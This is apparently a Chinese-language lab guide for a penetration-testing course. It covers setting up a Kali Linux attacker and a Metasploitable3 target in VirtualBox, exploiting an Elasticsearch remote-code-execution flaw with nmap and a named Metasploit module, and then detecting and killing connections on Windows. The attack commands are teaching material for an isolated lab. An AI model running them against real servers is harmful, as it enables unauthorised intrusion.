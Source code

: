 # 攻防情境說明
![攻防情境說明](scenario.png)

- 攻擊機 Kali Linux
- 靶機 metasploitable3 

# 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks

![A1.png](A1.png)

# 環境設定2:
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路
![m3_2.png](m3_2.png)
- 兩台機器都可以ping 到對方 
![m3_3.png](m3_3.png)

# 攻防實戰(1)攻擊
# A.駭客攻防實戰營(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4
![nmap1.png](nmap1.png)
- 步驟2:啟動metasploit== > msfconsole
![metasploit_1.png](metasploit_1.png)
- 步驟3:search elastic
![metasploit_2.png](metasploit_2.png)
```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```

- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce
![metasploit_3.png](metasploit_3.png)
- 步驟5:設定攻擊參數
  - show options
  - set RHOSTS 10.0.2.4
  - show options
![metasploit_4.png](metasploit_4.png)
- 步驟6:進行攻擊 ==> exploit 或者 run
![metasploit_5.png](metasploit_5.png)
- 步驟7:攻擊成功
![metasploit_6.png](metasploit_6.png)
- 步驟8:進入到post-exploitation階段
![metasploit_7.png](metasploit_7.png)

# 攻防實戰(2)Windows防禦
- 網路連線偵測 ==> netstat
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
    
![netstat](netstat.JPG)

- 終結 惡意網路連線 ==> 小小抱怨 : 教科書及linux 都是用`process(行程)` 微軟硬是要新創`工作(Task)` 
  - `工作`管理員(`Task` Manager)
    - [Windows 10 開啟「 工作管理員 」的11種方法](https://walker-a.com/archives/3436) 
  - [tasklist](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist):顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
  - [taskkill](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill) 獵殺執行中的程式(結束一個或多個工作或處理序)
    - [微軟官方說明](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill)
    - taskkill /PID XXXX /F
      - /F 參數強制進程終止，這對於許多不想關閉的討厭任務很有用。 
- 課堂學習
  - [基本Windows技術](BasicWindows.md)



# 延伸學習
- [滲透測試](PT.md)
- [更多Kali linux 學習](Kali202304.md)
- [靶機(metasploitable3)](metasploitable3.md)
- [基本Windows技術](BasicWindows.md)
- [Windows 指令(Windows Commands)](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands)
  - Windows/Linux常用網路指令
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
 
- 後續研讀
  - [Log4J 漏洞分析與Penetration Testing](Log4J.md)
  - 滲透測試專題 Hacking Articles
    - [Penetration Testing](https://www.hackingarticles.in/penetration-testing/)
    - [Web Penetration Testing](https://www.hackingarticles.in/web-penetration-testing/)
- 更多紅藍攻防
  - Red team 滲透測試靶機
    - [Hack The Box: Hacking Training For The Best](https://www.hackthebox.com/)
    - [TryHackMe | Cyber Security Training](https://tryhackme.com/)
    - [VulnHub| Vulnerable By Design](https://www.vulnhub.com/) 
  - Blue Team
    - [LetsDefend - Blue Team Training](https://www.letsdefend.io/) 


![Mimikatz](Mimikatz.png)
